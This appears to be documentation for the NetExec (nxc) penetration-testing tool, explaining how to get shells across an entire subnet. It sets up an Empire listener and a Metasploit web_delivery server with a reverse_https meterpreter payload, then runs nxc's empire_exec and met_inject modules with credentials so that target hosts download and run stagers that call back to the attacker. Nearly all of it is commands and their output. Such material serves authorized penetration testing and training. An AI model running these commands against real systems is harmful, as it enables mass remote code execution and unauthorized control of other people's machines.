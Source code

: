 # Getting Shells 101

## Getting Shells 101

We all love shells and that's why nxc makes it as easy as possible to get them! There really is something magical about shelling a /24

## Empire Agent

{% hint style="info" %}
Use the new Empire in Python3 [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

We can use the `empire_exec` module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

* First setup the rest API:

```
#~ python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* Second setup a listener:

```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at \~/.nxc/nxc.conf:

```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* Then just run the `empire_exec` module and specify the listener name:

```
#~ nxc 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```

## Meterpreter

We can use the `metinject` module launch a meterpreter using [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` script.

On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```

The SRVHOST and SRVPORT variables are used for running the webserver to host the script

```
set SRVHOST 10.211.55
set SRVPORT 8443
```

The `target` variable determines what type of script we're using. `2` is for PowerShell

```
set target 2
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload

```
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

Run the exploit

```
run -j
```

Once run, the web\_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* Then just run the `met_inject` module and specify the LHOST and LPORT values:

```
#~ nxc 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```
